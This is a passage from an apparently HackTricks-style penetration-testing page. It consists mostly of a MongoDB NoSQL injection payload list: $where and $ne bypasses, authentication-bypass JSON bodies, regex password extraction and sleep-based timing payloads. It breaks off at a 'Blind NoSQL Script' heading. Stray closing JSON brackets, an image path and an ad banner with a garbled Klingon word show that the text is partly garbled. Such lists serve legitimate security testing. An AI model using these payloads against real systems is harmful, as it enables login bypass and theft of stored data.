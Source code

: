```json
}
}
}
]
}
}
]
```
<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

\
[**Trickest**](https://trickest.com/?utm\_campaign=hacktrics\&utm\_medium=banner\&utm\_source=hacktricks) vItlhutlh 'ej **automate workflows** powered by the world's **most advanced** community tools.\
Get Access Today:

{% embed url="https://trickest.com/?utm_campaign=hacktrics&utm_medium=banner&utm_source=hacktricks" %}

## MongoDB Payloads

List [from here](https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt)
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```
## BlInd NoSQL Script
